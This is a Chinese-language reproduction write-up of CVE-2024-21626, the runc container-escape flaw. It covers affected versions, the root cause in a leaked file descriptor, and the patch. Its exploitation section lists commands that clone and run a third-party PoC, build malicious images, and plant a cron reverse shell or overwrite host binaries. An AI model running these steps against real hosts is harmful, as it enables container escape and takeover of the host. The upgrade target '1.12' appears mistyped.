




# 【漏洞复现】CVE-2024-21626 docker runc逃逸漏洞

# 1、漏洞简介

| 漏洞名称 | docker runc逃逸漏洞 |
|---|---|
|漏洞编号 | CVE-2024-21626  |
| 披露日期 | 2024-01-31 |
| 特征 | / |
|影响版本| runc @ [v1.0.0-rc93,1.1.11]|


# 2、漏洞利用&POC/EXP
**利用条件**有点苛刻，需要受害者交互，个人认为有点鸡肋：
1. 使用攻击者的恶意镜像（包括一些对工作目录的设置等）创建容器
2. 攻击者可以控制容器，执行命令。

**漏洞存在验证与获取描述符：**
```bash
git clone https://github.com/V0WKeep3r/CVE-2024-21626-runcPOC.git
cd CVE-2024-21626-runcPOC
bash verify.sh
```
如下图，存在漏洞，且文件描述符为`/proc/self/fd8`

verify.sh可以找出当前机器环境下对应的fd具体值，如果fd不为8，需要修改Dockerfile中的WORKDIR为对应的值或在`docker run`中使用`-w`指定。

**逃逸/提权验证：**
我这里更贴近实战，poc.sh使用定时任务反弹shell。
poc2.sh使用替换命令的方式（注意，使用该方式需要提前备份文件，以免难以恢复文件）。
```
# 需要确认定时任务文件存在，不存在可以创建写，但是那样不能触发定时任务
# 只有crontab -e创建的，在crontab组的文件才会被定时执行。
docker build . -t poc1
docker run -it --rm poc1 bash /poc.sh
```



POC2:
```
docker build . -t poc2
docker run -it --rm poc2 bash /poc.sh

# 另起一个terminal
/bin/bash.copy
```



# 3、漏洞原理分析
不算完全理解，结合补丁能了解大概。

docker exec或者docker run这个过程中会调用 runc 的execve函数，但是runc exec过程中，没有关闭fd文件描述符，导致宿主机的文件描述符同时泄漏在了容器环境中，用户可以通过这个文件描述符来实现读写宿主机的文件，进而完成容器逃逸。

# 4、修复方案/补丁分析
**修复方案**
升级runc到1.12以上。runc官方链接：https://github.com/opencontainers/runc/releases

**补丁分析**
diff commit：https://github.com/opencontainers/runc/commit/2a4ed3e75b9e80d93d1836a9c4c1ebfa2b78870e
在execve之前及时关闭内部fds

`init_linux.go`，在 chdir 之后验证 cwd（当前工作目录）是否在容器内



# F、参考链接
1. 漏洞描述：https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv
2. patch：https://github.com/opencontainers/runc/commit/2a4ed3e75b9e80d93d1836a9c4c1ebfa2b78870e
